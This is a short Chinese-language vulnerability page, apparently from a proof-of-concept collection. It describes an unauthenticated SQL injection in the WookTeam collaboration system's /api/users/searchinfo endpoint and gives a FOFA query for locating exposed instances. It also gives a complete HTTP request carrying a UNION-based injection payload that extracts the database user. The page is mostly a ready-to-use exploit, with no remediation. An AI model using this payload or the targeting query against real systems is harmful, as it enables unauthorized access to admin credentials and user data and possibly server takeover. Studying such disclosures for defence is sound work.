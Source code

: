 # WookTeam轻量级的团队在线协作系统接口searchinfo存在SQL注入漏洞

WookTeam /api/users/searchinfo 接口存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

## fofa

```yaml
title="Wookteam"
```

## poc

```java
GET /api/users/searchinfo?where[username]=1%27%29+UNION+ALL+SELECT+NULL%2CCONCAT%280x7e%2Cuser%28%29%2C0x7e%29%2CNULL%2CNULL%2CNULL%23 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
```

![image-20240814095848331](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408140959983.png)